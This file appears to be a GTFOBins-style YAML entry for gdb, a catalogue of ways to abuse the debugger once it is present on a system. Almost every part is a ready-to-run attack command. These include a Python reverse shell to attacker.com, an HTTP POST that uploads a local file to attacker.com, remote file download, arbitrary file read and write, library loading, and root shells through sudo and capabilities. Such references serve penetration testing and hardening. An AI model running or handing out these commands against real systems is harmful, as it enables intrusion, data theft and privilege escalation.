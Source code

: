 ```yaml
---
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  reverse-shell-interactive:
    - description: This requires that GDB is compiled with Python support. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' -ex quit
  upload:
    - description: This requires that GDB is compiled with Python support. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
    - description: This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
  download:
    - description: This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
  file-write:
    - description: This requires that GDB is compiled with Python support.
      code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  file-read:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit
  load-library:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  capabilities-enabled:
    - description: This requires that GDB is compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
---
```

